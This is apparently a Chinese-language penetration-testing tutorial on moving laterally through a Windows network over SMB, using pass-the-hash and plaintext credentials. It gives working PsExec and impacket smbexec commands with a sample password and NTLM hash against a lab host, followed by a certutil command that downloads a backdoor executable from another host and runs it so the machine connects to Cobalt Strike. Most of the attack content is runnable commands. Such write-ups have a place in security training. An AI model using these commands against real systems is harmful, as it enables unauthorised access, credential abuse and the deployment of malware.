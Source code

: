 服务器消息块Server Message Block，又称网络文件共享系统，SMB服务通常由文件服务器提供，它允许客户端计算机通过网络访问服务器上的共享资源。通过SMB用户可以在网络上访问和共享文件夹、文件以及打印机，从而实现在不同计算机之间方便地共享数据和打印输出。利用SMB可通过明文或HASH传递来远程执行。  
  
  
windows2012以上默认关闭了Wdigest，所以攻击者无法通过内存获取到明文密码，有四种方法解决：  
  
1. 利用（PTH,PTK）等进行移动不需要明文  
1. 利用其他服务协议（SMB/WMI等进行哈希移动）  
1. 利用注册表开启（wdigest auth）进行获取  
1. 利用工具或者第三方平台（Hashcat）进行破解获取  
利用条件：  
  
1. 文件与打印机服务开启，默认开启  
1. 防火墙允许135、445端口通信  
1. 知道目标账户密码或HASH  
若禁用了防火墙规则中的文件和打印机共享(SMB-In) 445端口的，那么就没法通过SMB来进行横向移动了。  
  
##### 利用1 psexec  
  
  
交互式windows官方工具  
  
  
https://learn.microsoft.com/zh-cn/sysinternals/downloads/pstools  
  
  
PsExec.exe \\192.168.3.32 -u administrator -p admin!@#45 -s cmd  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7Ij67ic1kib0s4g66H5ibrenDQdcxvxzjIPic6Xpvxl9ibBkVmedeQv3SL9Q/640?wx_fmt=png&from=appmsg "")  
  
  
执行后成功获取一个交互式的cmd，但是这种命令我们一般要在Web主机的cs上进行，cs是没有交互功能的。因此就完成不了。无法将cmd反弹到cs上进行。所以没有图形化一般就不用了。  
  
  
psexec -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32  
  
##### 利用2 smbexec-impacket  
  
  
利用impacket套件的话，一般就是建立socks节点然后本机用套件开干。  
  
```
python smbexec.py sqlserver/administrator:admin!@#45@192.168.3.32

python smbexec.py -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7iaDuUlL0uVD7AT6nJHu3I3OyddMMhJqYxvviaA1rOBazAEwNuWz8YIuA/640?wx_fmt=png&from=appmsg "")  
  
  
成功返回一个cmd，然后我们可以通过certutil来下载后门进行上线。  
  
```
certutil -urlcache -split -f http://192.168.3.31/3232.exe c:/3232.exe
c:\3232.exe
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU79kdPCtJ7o9tPl7XshGQ1aWSZC5DcW5iatDwdjO1RrdmKwpHWhRmzdJw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7ISDnthSibK50DyPuEiafzzzypu7SGcKF36prFkfibNy4rx2Cl8eLybDZw/640?wx_fmt=png&from=appmsg "")  
  